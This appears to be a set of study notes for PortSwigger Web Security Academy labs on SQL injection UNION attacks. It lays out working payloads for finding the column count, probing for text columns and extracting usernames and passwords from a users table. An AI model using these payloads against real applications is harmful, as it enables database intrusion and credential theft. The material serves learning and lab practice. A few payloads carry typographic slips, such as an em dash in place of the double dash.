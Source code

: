 # Retrieving data from other database tables

# Application Query

```sql
SELECT name, description FROM products WHERE category = 'Gifts'
```

# Attack Payload

```sql
' UNION SELECT username, password FROM users--
```

[SQL injection UNION attacks | Web Security Academy](https://portswigger.net/web-security/sql-injection/union-attacks)

# Union Attack Requirements

## `UNION` Query

- The individual queries must return the same number of columns.
- The data types in each column must be compatible between the individual queries.

## Query Attack

- How many columns are being returned from the original query?
- Which columns returned from the original query are of a suitable data type to hold the results from the injected query?

# **Determining the number of columns required in an SQL injection UNION attack**

## `ORDER BY` Payload

```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
etc.
```

`The ORDER BY position number 3 is out of range of the number of items in the select list.`

## `UNION SELECT` Payload

```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```

`All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.`

- 💡 Note
    - The reason for using `NULL` as the values returned from the injected `SELECT` query is that the data types in each column must be compatible between the original and the injected queries. Since `NULL` is convertible to every commonly used data type, using `NULL` maximizes the chance that the payload will succeed when the column count is correct.
    - On Oracle, every `SELECT` query must use the `FROM` keyword and specify a valid table. There is a built-in table on Oracle called `dual` which can be used for this purpose. So the injected queries on Oracle would need to look like: `' UNION SELECT NULL FROM DUAL--`.
    - The payloads described use the double-dash comment sequence `-` to comment out the remainder of the original query following the injection point. On MySQL, the double-dash sequence must be followed by a space. Alternatively, the hash character `#` can be used to identify a comment.

## Lab

[**Lab: SQL injection UNION attack, determining the number of columns returned by the query**](./lab-sql-injection-union-attack-determining-the-number-of-columns-returned-by-the-query.md)

# **Finding columns with a useful data type in an SQL injection UNION attack**

## Probing Attack Payloads

```sql
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

`Conversion failed when converting the varchar value 'a' to data type int.`

## Lab

[**Lab: SQL injection UNION attack, finding a column containing text**](./lab-sql-injection-union-attack-finding-a-column-containing-text.md)

# **Using an SQL injection UNION attack to retrieve interesting data**

## Retrieval Payload

```sql
' UNION SELECT username, password FROM users—
```

## Lab

[**Lab: SQL injection UNION attack, retrieving data from other tables**](./lab-sql-injection-union-attack-retrieving-data-from-other-tables.md)

# **Retrieving multiple values within a single column**

## Concatenating Payload

```sql
' UNION SELECT username || '~' || password FROM users--
```

This uses the double-pipe sequence `||` which is a string concatenation operator on Oracle. The injected query concatenates together the values of the `username` and `password` fields, separated by the `~` character.

## Lab

[**Lab: SQL injection UNION attack, retrieving multiple values in a single column**](./lab-sql-injection-union-attack-retrieving-multiple-values-in-a-single-column.md)

